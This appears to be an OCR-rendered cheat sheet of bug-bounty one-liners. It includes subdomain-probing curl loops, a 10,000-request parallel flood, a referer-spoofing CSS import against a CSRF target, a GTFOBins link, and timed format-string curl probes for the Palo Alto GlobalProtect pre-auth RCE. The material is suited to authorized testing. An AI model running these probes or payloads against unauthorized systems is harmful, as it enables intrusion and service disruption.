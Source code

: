 <br># Fake FTP Server
<br>```python -m pyftpdlib --directory=/tmp/dir/ --port=21```

<br># Check HTTP or HTTPS
<br>```while read i; do curl -m 15 -ki http://$i &> /dev/null; if [ $? -eq 0 ]; then echo $i; fi; done < subdomains.txt```
<br>```while read i; do curl -m 15 -ki https://$i &> /dev/null; if [ $? -eq 0 ]; then echo $i; fi; done < subdomains.txt```

<br># Ten requests in parallel
<br>```xargs -I % -P 10 curl -H 'Connection: close' -s -D - -o /dev/null https://example.com < <(printf '%s\n' {1..10000})```

<br># Access target directly through IP address
<br>```http://1.2.3.4```
<br>```https://1.2.3.4```

<br># Trim space and newlines on bash variable
<br>```"${i//[$'\t\r\n ']}"```

https://gtfobins.github.io/
<br># GTFOBins is a curated list of Unix binaries that can used to bypass local security restrictions in misconfigured systems.

<br># Mirror a single page
<br>```wget -mkEpnp https://www.example.com/```

<br># Referer spoofing
<br>```<base href="https://www.google.com/">```
<br>```<style>```
<br>```@import 'https://CSRF.vulnerable.example/';```
<br>```</style>```

https://blog.orange.tw/2019/07/attacking-ssl-vpn-part-1-preauth-rce-on-palo-alto.html
<br># Check PreAuth RCE on Palo Alto GlobalProtect
<br>```time curl -s -d 'scep-profile-name=%9999999c' https://${HOST}/sslmgr >/dev/null```
<br>```time curl -s -d 'scep-profile-name=%99999999c' https://${HOST}/sslmgr >/dev/null```
<br>```time curl -s -d 'scep-profile-name=%999999999c' https://${HOST}/sslmgr >/dev/null```
